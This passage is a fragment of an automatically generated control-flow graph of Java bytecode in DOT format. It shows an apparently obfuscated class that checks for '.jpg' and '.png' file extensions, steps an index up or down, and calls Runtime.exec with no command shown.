    "push \".jpg\""->"virtualinvoke <java.lang.String: boolean endsWith(java.lang.String)>";
    "virtualinvoke <java.lang.String: boolean endsWith(java.lang.String)>"->"ifne load.r r0";
    "ifne load.r r0"->"load.r r0";
    "load.r r0"->"fieldget <C5C2I5A2: java.lang.String bs>";
    "push \".png\""
    "fieldget <C5C2I5A2: java.lang.String bs>"->"push \".png\"";
    "push \".png\""->"virtualinvoke <java.lang.String: boolean endsWith(java.lang.String)>";
    "virtualinvoke <java.lang.String: boolean endsWith(java.lang.String)>"->"ifne load.r r0";
    "ifne load.r r0"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"fieldget <C5C2I5A2: int i>";
    "fieldget <C5C2I5A2: int i>"->"push 1";
    "push 1"->"sub.i";
    "sub.i"->"fieldput <C5C2I5A2: int i>";
    "fieldput <C5C2I5A2: int i>"->"load.r r0";
    "load.r r0"->"fieldget <C5C2I5A2: int i>";
    "fieldget <C5C2I5A2: int i>"->"iflt load.r r0";
    "iflt load.r r0"->"goto load.r r0";
    "iflt load.r r0"->"load.r r0";
    "load.r r0"->"push 0";
    "push 0"->"fieldput <C5C2I5A2: int i>";
    "fieldput <C5C2I5A2: int i>"->"goto load.r r0";
    "ifne load.r r0"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"fieldget <C5C2I5A2: int i>";
    "fieldget <C5C2I5A2: int i>"->"push 1";
    "push 1"->"add.i";
    "add.i"->"fieldput <C5C2I5A2: int i>";
    "fieldput <C5C2I5A2: int i>"->"goto load.r r0";
    "virtualinvoke <java.io.IOException: void printStackTrace()>"
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"->"virtualinvoke <java.io.IOException: void printStackTrace()>";
}

